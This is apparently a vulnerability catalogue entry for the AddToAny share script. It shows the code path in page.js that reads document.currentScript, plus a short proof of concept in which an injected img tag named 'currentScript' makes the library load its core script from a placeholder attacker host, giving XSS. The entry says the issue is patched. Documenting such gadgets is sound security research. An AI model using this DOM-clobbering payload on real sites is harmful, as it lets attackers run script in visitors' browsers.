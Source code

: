 ## AddToAny

### Meta

+ Library: AddToAny
+ Stars: N/A
+ Fingerprint: `window.hasOwnProperty('a2a_config')`
+ Payload: ```<img src="https://addtoany.xxx.xxx" name="currentScript">```
+ Impact: XSS
+ CVE: N/A
+ Status: Patched
+ Foundby: TheHulk

### Library

URL:
+ `https://static.addtoany.com/menu/page.js` (patched)

### Vulnerable Code Snippet

```javascript
_ = (d = o.currentScript) && d.src ? d.src : "",
e = d && !d.async && !d.defer,
```

```javascript
a = (t = n.static_server) ? t + "/" : "https://static.addtoany.com/menu/",
p = _ && -1 !== _.split("/")[2].indexOf("addtoany"),
l = (p = (l = !t && p ? _ : a).match(/^[^?#]+\//)) ? p[0] : l,
```

```javascript
var e = l + (t ? "" : "modules/");
c(e + "core" + g + ".js", !0);
```

## PoC

```
<img src="https://addtoany.xxx.xxx" name="currentScript">
<script async src="https://static.addtoany.com/menu/page.js"></script>
```
